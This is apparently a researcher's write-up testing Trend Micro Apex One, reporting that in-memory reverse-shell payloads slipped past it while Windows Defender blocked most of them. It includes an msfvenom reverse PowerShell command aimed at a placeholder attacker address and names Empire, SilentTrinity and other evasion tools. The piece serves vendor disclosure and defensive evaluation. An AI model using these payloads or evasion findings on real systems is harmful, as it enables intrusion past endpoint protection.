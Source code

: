 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Bypassing Trend Micro Apex One
___________________________________

# Background
1. Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory. 
2. Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff. 

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, checked again and then had a small existential crisis. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end. 

![bms](Post%20Images/BMS.PNG)
![scs](Post%20Images/SCS.PNG)

I first notified Trend of the issues back in February. I should point out that Trend pushed out an update at a point in the process in which Apex One would successfully block anything from PowerShell Empire. However, this glimmer of hope only lasted for a short period of time before I tried again a couple of days later to test for consistency.

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


# MSFVenom cmd/windows/reverse_powershell
![msfv_1](Post%20Images/KaliVM.PNG)
![msfv_2](Post%20Images/Win10Prod_LI.jpg)
![msfv_3](Post%20Images/msfvenom_payload.PNG)
![msfv_4](Post%20Images/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/msfv_bypass_LI.jpg)
![msfv_6](Post%20Images/msfv_bypass2_LI.jpg)

# Observations
As I mentioned previously, I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on the MSFvenom payload). I received the patch on a specified date and it seemed like it was working. PSE was no longer receiving a callback from the target thus producing an agent that would allow me to interact with the remote host. Everything was fine and dandy until I performed the same test a couple of days later. Apex One had once again failed to alert on the C2 connection. At this time I noticed that the IP on my Kali box had changed. Was I able to bypass Apex One once more with PSE just by changing my IP? Yes, I was. To make sure I wasn't hallucinating, I had a colleague execute the stager on their machine and sure enough, I got a callback from the machine.

## PowerShell Empire

#### Round 1 (note the change of IP)
![PSE_1_1](Post%20Images/kalivm.PNG)
![PSE_1_2](Post%20Images/win10prod2_LI.jpg)
![PSE_1_3](Post%20Images/listener_stager.PNG)
![PSE_1_4](Post%20Images/pse_bypass_LI.jpg)

A few minutes later and Apex One still didn't figure out was happening.

#### Round 2 (note the change of IP)
![PSE_2_1](Post%20Images/listener_stager2.PNG)
![PSE_2_2](Post%20Images/pse_bypass2.PNG)
![PSE_2_3](Post%20Images/pse_bypass2_cmds_LI.jpg)

I came across an anomaly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite seems to occur when planting the base64 encoded PowerShell payload generated from the launcher command in Empire. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is detected by Apex One.

# A Shocking Revelation
During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. 

![winver](Post%20Images/winver.PNG)

The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 were able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link. 

![Github One-liner](Post%20Images/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I received an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# (06-11-19)
* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via PowerShell, C#, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.
* Microsoft's Windows Defender via the latest Windows 10 build is a much better solution at this time.
